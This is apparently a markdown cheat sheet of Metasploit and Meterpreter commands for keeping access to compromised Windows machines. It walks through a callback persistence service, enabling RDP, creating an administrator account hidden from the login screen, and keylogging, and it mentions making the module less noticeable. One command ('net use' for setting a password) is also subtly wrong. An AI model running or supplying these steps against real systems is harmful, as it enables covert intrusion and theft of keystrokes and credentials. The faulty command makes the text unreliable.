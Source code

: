 ## Windows - Establishing Persistence

We need a Meterpreter session.

### Metasploit
```
search platform:windows persistence_service
use multi/handler
set payload - same as persistence module
set port and host - receiving communication of persistence module
```
### Enabling RDP

How to enable RDP

#### Metasploit
```
search enable_rdp
```
We can change password using this module or we can use Meterpreter to do that.
```
shell
net users
net use administrator hacker_123321
```
#### Meterpreter
```
run getgui -e -u user1 -p hacker_123321
```
This command creates a new account with the privilege to use RDP without appearing on the login screen. Additionally, it adds the account to the administrative group.

Afterward, we can log in to the account using the RDP service.
```
xfreerdp /u:administrator /p:hacker_123321 /v:10.10.10.1
```
### Windows Key-logging

#### Meterpreter

We need to migrate to the service we need to monitor.
```
keyscan_start
keyscan_dump
keyscan_stop
```
#### Via Services

Metasploit
```
search persistence_service
options
set session
set lport 4433
```
We can configure the module to make it less noticeable. Regardless, it generates a configuration file to clean up its remnants on the target machine.
To use it, we still need the multi/handler module as usual.
